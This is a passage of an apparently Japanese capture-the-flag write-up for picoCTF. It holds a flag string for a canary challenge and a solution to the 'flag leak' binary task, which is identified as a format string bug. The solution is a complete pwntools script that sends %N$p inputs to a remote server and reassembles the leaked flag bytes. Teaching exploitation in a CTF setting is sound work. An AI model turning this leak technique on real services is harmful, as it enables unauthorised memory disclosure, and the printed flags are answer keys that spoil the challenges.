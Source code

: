 <br />

Flag: `picoCTF{Stat1C_c4n4r13s_4R3_b4D_9602b3a1}`





<br /><br />
<br /><br />
## [Binary]: flag leak (300 points)
- - -
### Challenge
> Story telling class 1/2
<br /><br />
I'm just copying and pasting with this program. What can go wrong?

Attachment:

- vuln
- vuln.c

<br />

### Solution
書式文字列攻撃 (FSB: Format String Bug) です。

```Python
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
import sys
context.log_level = 'critical'

host, port = 'saturn.picoctf.net', 60253

for i in range(36, 46):
    s = remote(host, port)
    s.recvuntil('tell you one >> ')
    s.sendline('%' +str(i)+ '$p')
    # print i,
    s.recvuntil('a story - \n')
    response = s.recvline().decode('UTF-8')
    if "0x" in response:
        r = response
        sys.stdout.write(p32(int(r, 16)))
    else:
        print()
    s.close()
    sleep(1)
print()
```
